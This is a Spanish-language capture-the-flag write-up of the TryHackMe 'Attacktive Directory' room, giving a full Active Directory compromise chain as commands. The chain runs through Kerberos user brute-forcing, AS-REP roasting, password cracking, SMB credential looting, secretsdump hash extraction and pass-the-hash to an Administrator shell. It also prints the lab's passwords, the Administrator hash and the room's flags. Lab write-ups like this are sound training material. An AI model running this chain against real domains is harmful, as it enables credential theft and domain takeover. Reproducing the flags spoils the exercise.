# Write-up:

- **Nombre de la máquina:** `Attacktive Directory`
- **Plataforma:** `TryHackMe`
- **IP:** `10.10.181.173`
- **SO:** `Windows`
- **Dificultad:** `Medium`
- **Enlace:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)

---

## 1. RECONOCIMIENTO 🔎

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima, un **Active Directory** de Windows.

### 1.1. Verificación de Conectividad y SO

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL.

```
ping -c 1 10.10.181.173
```

<p align="center">
    
</p>
El resultado del ping nos devuelve conectividad y un **TTL=127**, lo que es un indicio de que estamos ante una máquina **Windows**.

---

### 1.2. Escaneo de Puertos y Servicios

Se realiza un escaneo con **Nmap**. 

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 10.10.181.173 -oN port_scan.txt
```

Debido a que es un _Active Directory_, se espera una gran cantidad de puertos abiertos.
<p align="center">
    
</p>
**Puertos y Servicios Descubiertos:**

|**Puerto**|**Servicio**|**Notas**|
|---|---|---|
|445|`smb`|Buscaremos recursos compartidos.|
|80|`http`|Servidor web IIS.|
|88|`kerberos`|Protocolo de autenticación fundamental en Active Directory.|

**Hallazgos Clave:**

1. **Nombre de Dominio:** A partir de los servicios de directorio, se identifica el nombre de dominio: **`spookysec.local`**.
2. **Configuración del _Host_:** Se añade la IP y el dominio al archivo `/etc/hosts` para facilitar la enumeración y el ataque. <p align="center">
    
</p>


---

## 2. ENUMERACIÓN 💻

Una vez identificados los servicios y el dominio, procedemos a una investigación más profunda.

### 2.1. Puerto 80 (HTTP)

Se visita la web en busca de información, pero solo se encuentra la **plantilla por defecto de Microsoft IIS**. No se encuentran rutas ni credenciales útiles en esta etapa.

<p align="center">
    
</p>

### 2.2. Enumeración de Usuarios con Kerbrute

Dado que Kerberos (puerto 88) es un punto central de autenticación, se utiliza la herramienta **Kerbrute** para realizar un ataque de **fuerza bruta de usuarios válidos** en el dominio.

Se utilizan los diccionarios de usuarios y contraseñas proporcionados por TryHackMe.


```
python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
```

**Hallazgo Clave:**

Se descubre el usuario **`svc-admin`** con la nota **`[NOT PREAUTH]`**. Esto indica que este usuario **no tiene la pre-autenticación Kerberos activada**, lo que es una vulnerabilidad que permite el ataque conocido como **AS-REPRoasting**.

 <p align="center">
    
</p>

---

### 2.3. AS-REPRoasting para obtener credenciales

La vulnerabilidad **AS-REPRoasting** nos permite solicitar un Ticket-Granting Ticket (**TGT**) para el usuario `svc-admin` **sin tener que proporcionar ninguna prueba de autenticación (contraseña)**, lo que resulta en la devolución de la contraseña _hasheada_ del usuario.

Se utiliza la herramienta `impacket-GetNPUsers` para este fin.

Bash

```
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
```
<p align="center">
    
</p>
**Hallazgos:**

1. Se obtiene el **hash de la contraseña** del usuario `svc-admin`.
2. Se guarda el hash en un archivo (`hash`) y se utiliza **John the Ripper** junto al diccionario de contraseñas (`passwordlist.txt`) para _crackearlo_.


```
john hash --wordlist=passwordlist.txt
```
<p align="center">
    
</p>
**Credencial Obtenida:**

- **Usuario:** `svc-admin`
- **Contraseña:** `management2005`

---

## 3. EXPLOTACIÓN 💥

Con las credenciales del usuario `svc-admin`, podemos acceder a más recursos del dominio.

### 3.1. Enumeración de Recursos Compartidos (SMB - Puerto 445)

Utilizamos las credenciales para conectarnos al servicio SMB y enumerar los recursos compartidos.

```
smbclient //spookysec.local/backup -U svc-admin
```
<p align="center">
    
</p>
Se accede al recurso compartido **`backup`** y se encuentra el archivo **`backup_credentials.txt`**, que se descarga con el comando `get`.

El archivo contiene una cadena codificada en **Base64**: `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`.
<p align="center">
    
</p>

Decodificamos la cadena para obtener el siguiente conjunto de credenciales:

```
echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
```
<p align="center">
    
</p>

**Nuevas Credenciales Obtenidas:**
- **Usuario:** `backup@spookysec.local`
- **Contraseña:** `backup2517860`

---

## 4. ESCALADA DE PRIVILEGIOS ⏫

Ahora, con las credenciales del usuario `backup`, buscamos un vector para la escalada de privilegios a `Administrator`.

### 4.1. Abuso de Permisos (Secretsdump)

El usuario `backup` a menudo tiene **privilegios excesivos** para acceder a la base de datos de usuarios (NTDS.DIT) de Active Directory. Abusaremos de estos permisos para volcar los _hashes_ de todos los usuarios del dominio utilizando `impacket-secretsdump`.

Bash

```
impacket-secretsdump -just-dc backup@10.10.181.173
```
<p align="center">
    
</p>

**Hallazgo Clave:**

Obtenemos los **hashes NTLM** de todos los usuarios, incluido el hash del **`Administrador`**:
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

### 4.2. Ataque _Pass the Hash_ (PtH)

Utilizamos el hash NTLM del administrador para realizar un ataque de **Pass the Hash** y obtener una _shell_ con privilegios de administrador, sin necesidad de conocer la contraseña en texto plano. Se emplea `impacket-psexec`.

Bash

```
impacket-psexec Administrator:@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
<p align="center">
    
</p>

**Acceso Logrado:**
Conseguimos una _shell_ con el usuario **`Administrator`** del dominio. ¡Somos `root`!

---

## 5. CAPTURA DE BANDERAS (FLAGS) 🏁

Con acceso privilegiado, se buscan y leen las banderas de los usuarios comprometidos.

| **Usuario**         | **Archivo**    | **Ubicación**                    | **Contenido (Flag)**               |
| ------------------- | -------------- | -------------------------------- | ---------------------------------- |
| **`svc-admin`**     | `user.txt.txt` | `C:\Users\svc-admin\Desktop`     | `TryHackMe{K3rb3r0s_Pr3_4uth}`     |
| **`backup`**        | `PrivEsc.txt`  | `C:\Users\backup\Desktop`        | `TryHackMe{B4ckM3UpSc0tty!}`       |
| **`Administrator`** | `root.txt`     | `C:\Users\Administrator\Desktop` | `TryHackMe{4ctiveD1rectoryM4st3r}` |

<p align="center">
    
</p>

<p align="center">
    
</p>
<p align="center">
    
</p>


